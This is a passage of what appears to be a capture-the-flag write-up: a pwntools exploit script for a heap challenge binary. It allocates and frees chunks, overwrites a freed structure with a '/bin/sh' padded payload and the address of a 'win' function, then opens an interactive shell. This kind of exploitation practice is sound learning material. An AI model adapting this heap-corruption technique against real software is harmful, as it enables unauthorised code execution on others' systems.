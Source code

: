 ```python
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

# defined structs
CTFS = 1
DESC = 2

def create(type, buffer):
    io.sendlineafter(b'Choose:', str(type).encode())
    if len(buffer) < 60:
        io.sendlineafter(b':', buffer)
    else:
        io.sendafter(b':', buffer)

def delete(type):
    io.sendlineafter(b'Choose:', str(type+2).encode())

def exploit():
    global io
    io = initialize()

    create(CTFS, b'CTFS1')
    create(DESC, b'DESC1')
    create(CTFS, b'CTFS2')

    delete(DESC)
    delete(CTFS)

    payload = b'/bin/sh\x00' 
    payload += payload.ljust(56 - len(payload), b'A')
    payload += p32(elf.sym['win'])
    
    info('payload len: %d', len(payload))
    assert(len(payload) <= 60)
    
    create(DESC, payload)

    # trigger win
    io.sendlineafter(b'Choose:', b'5')
    io.sendlineafter(b'index:', b'1')

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}
